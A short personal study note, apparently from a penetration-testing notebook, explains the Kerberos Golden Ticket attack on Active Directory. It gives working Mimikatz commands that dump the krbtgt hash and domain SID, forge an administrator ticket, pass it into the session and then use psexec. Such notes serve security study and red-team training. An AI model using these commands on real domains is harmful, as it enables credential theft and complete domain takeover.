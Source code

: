 Once we own the domain, we also own the krbtgt account. Because we have that account, we can make our own tickets to go anywhere in the domain.

### Tools
- [[Mimikatz]]
	- lsadump
		- `lsadump::lsa /inject /name:krbtgt`
		- get the krbtgt hash
		- get the Domain SID
	- Kerberos
		- `kerberos::golden /User:Administrator /domain:[domain] /sid:[sid] /krbtgt:[NT hash] /id:500 /ptt`
			- `ptt` is for passing the ticket to the current session
			- follow it up with `misc::cmd`
			- now can use psexec to do whatever

Once we get this, we can just kinda go anywhere with that session.
- Can go anywhere, do p much anything
